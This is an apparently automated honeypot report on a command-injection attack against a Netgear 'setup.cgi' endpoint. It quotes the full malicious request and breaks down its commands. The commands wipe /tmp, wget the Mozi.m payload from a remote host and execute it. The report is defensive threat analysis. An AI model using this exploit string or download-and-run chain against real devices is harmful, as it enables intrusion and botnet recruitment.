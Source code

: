 
# Unauthenticated Command Execution Attack Exploiting Vulnerable Netgear Devices from IP 178.72.69.244 for Malware Deployment

<details><summary>
<h2>Quick Stats</h2>
</summary></details>

---

# Attack Summary Report

## Attack Overview

A Linux honeypot system was targeted by a sophisticated attack originating from the IP address 178.72.69.244. The attack involved a carefully crafted HTTP request aiming to exploit vulnerabilities in the web application, particularly through a `setup.cgi` script. This attempt was characterized by command injection within the request parameters to execute arbitrary commands on the target system.

## Attack Details

- **Source IP**: 178.72.69.244
- **Destination IP (Honeypot)**: 172.31.5.68
- **Vulnerable Component**: Web application (`setup.cgi`)
- **HTTP Request**:
    - Method: GET
    - URI: `/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1`

## Attack Methods

1. **Command Injection**: The attacker utilized the HTTP GET request to inject a sequence of shell commands.
2. **Malware Download and Execution**:
    - **Clear Temporary Directory**: `rm -rf /tmp/*`
    - **Malware Retrieval**: `wget http://192.168.1.1:8088/Mozi.m -O /tmp/netgear`
    - **Script Execution**: `sh /tmp/netgear`

## Attack Goals

1. **System Compromise**: To exploit a web application vulnerability, allowing the attacker to execute arbitrary commands on the target system.
2. **Malware Deployment**: To download and execute a potentially malicious file (`Mozi.m`), likely intended to further compromise the system or integrate it into a botnet.
3. **Establishing Control & Further Malicious Activities**: Success in executing the payload could lead to the establishment of a command and control channel, enabling the attacker to perform additional malicious activities such as data exfiltration, lateral movement, or utilizing the compromised system as part of a botnet for DDoS attacks.
